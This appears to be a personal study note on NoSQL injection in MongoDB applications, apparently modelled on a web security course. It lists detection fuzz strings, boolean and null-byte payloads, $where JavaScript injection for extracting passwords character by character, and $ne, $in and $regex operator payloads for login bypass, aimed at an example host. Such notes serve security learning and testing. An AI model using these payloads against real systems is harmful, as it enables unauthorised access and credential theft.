



>[!summary]
>[NoSQL 101](../Dev,%20scripting%20&%20OS/NoSQL%20101.md) injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.

Potential impact:
- Authentication Bypass
- Extract or edit data
- Denial of Service
- [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md)

# Types of NoSQL Injection

## Syntax Injection

This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. 

### Detect

To do this, systematically test each input by submitting fuzz strings and special characters that trigger a database error or some other detectable behavior if they're not adequately sanitized or filtered by the application.

Example string for MongoDB:
```
'"`{
;$Foo}
$Foo \xYZ

https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

>[!note]
>In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become
>```
>'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
>```

### Exploit

**Boolean condition**

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.
To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`

```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

Resulting query:
this.category == 'fizzy'||'1'=='1'
```

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored:

```
https://insecure-website.com/product/lookup?category=fizzy'%00

Resulting query:
this.category == 'fizzy'\u0000' && this.released == 1 (where "&& this.released == 1" is ignored)
```

**JavaScript code**

Some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function.

```
https://insecure-website.com/user/lookup?username=admin

Resulting query:
{"$where":"this.username == 'admin'"}
```

As the query uses the `$where` operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data:
```js
admin' && this.password[0] == 'a' || 'a'=='b // This returns the first character of the user's password string, enabling you to extract the password character by character.
```





You could also use the JavaScript `match()` function to extract information:
```js
admin' && this.password.match(/\d/) || 'a'=='b
```

**Identifying field names**

You may need to identify valid fields in the collection before you can extract data using JavaScript injection. Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the username field exists, so you could send the following payloads:

```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'

admin' && this.username!='
admin' && this.foo!='
```

If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).
## Operator Injection

This occurs when you can use NoSQL query operators to manipulate queries. 

Examples of MongoDB query operators include:
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

### Detect

In JSON messages, you can insert query operators as nested objects:

```json
{"username":"wiener"}
{"username":{"$ne":"invalid"}}

{"username":{"$ne":"invalid"},"password":{"peter"}}
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```



For URL-based inputs, you can insert query operators via URL parameters:

```http
username=wiener
username[$ne]=invalid
```

If this doesn't work, you can try the following:
1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

### Exploit

Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via this operator.

To test whether you can inject operators, you could try adding the $where operator as an additional parameter:
```

{"username":"wiener","password":"peter"}

{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```

If you have injected an operator that enables you to run JavaScript, you may be able to use the keys() method to extract the name of data fields:
```js
"$where":"Object.keys(this)[0].match('^.{0}a.*')" // This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character.
```

You may be able to extract data using operators that don't enable you to run JavaScript. For example, you may be able to use the `$regex` operator to extract data character by character:

```js

{"username":"myuser","password":"mypass"}

{"username":"admin","password":{"$regex":"^.*"}} // If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
{"username":"admin","password":{"$regex":"^a*"}}
```